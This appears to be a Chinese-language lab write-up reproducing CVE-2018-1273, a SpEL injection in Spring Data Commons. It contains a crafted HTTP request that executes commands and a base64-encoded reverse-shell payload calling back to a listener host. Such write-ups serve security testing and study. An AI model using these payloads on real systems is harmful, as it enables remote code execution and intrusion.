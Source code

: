 # Spring Data Commons 远程命令执行漏洞 CVE-2018-1273

## 漏洞描述

Spring Data 是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons 是 Spring Data 下所有子项目共享的基础框架。Spring Data Commons 在 2.0.5 及以前版本中，存在一处 SpEL 表达式注入漏洞，攻击者可以注入恶意 SpEL 表达式以执行任意命令。

参考链接：

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c

## 环境搭建

Vulhub 执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问 `http://your-ip:8080/users`，将可以看到一个用户注册页面。

![image-20220301152041573](images/202203011520665.png)

## 漏洞复现

参考前面链接中的 Payload，在注册的时候抓包，并修改成如下数据包：

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/awesome_poc")]=&password=&repeatedPassword=
```

![image-20220301152743774](images/202203011527857.png)

执行 `docker-compose exec spring bash` 进入容器中，可见成功创建 `/tmp/awesome_poc`，说明命令执行成功：

![image-20220301152752322](images/202203011527377.png)

构造反弹 shell 的 Payload（**注意**，Base64 编码后需要再进行 URL 编码，否则将反弹失败）：

```
# URL编码前
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}

# URL编码后
bash -c {echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D}|{base64,-d}|{bash,-i}
```

```
# Payload
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D}|{base64,-d}|{bash,-i}")]=&password=&repeatedPassword=
```

监听 9999 端口，成功接收反弹 shell：

![image-20220301153412308](images/202203011534428.png)
